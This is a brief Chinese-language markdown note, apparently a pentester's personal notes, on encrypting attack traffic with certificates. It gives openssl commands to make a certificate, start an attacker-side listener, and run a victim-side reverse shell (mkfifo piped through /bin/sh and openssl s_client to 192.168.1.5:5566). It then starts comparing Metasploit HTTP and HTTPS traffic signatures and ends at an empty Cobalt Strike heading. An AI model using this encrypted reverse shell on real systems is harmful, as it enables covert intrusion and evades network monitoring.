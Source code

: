 # 证书加密流量
![](vx_images/560947531347458.png)

```
生成证书
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
攻击端监听（端口5566）
openssl s_server -quiet -key key.pem -cert cert.pem -port 5566

受害端反向Shell
mkfifo /tmp/s; 
/bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.1.5:5566 > /tmp/s
```

# msf对比http,https

http:
弱特征
![](vx_images/73737669509842.png)
请求头参数数量固定

# CS
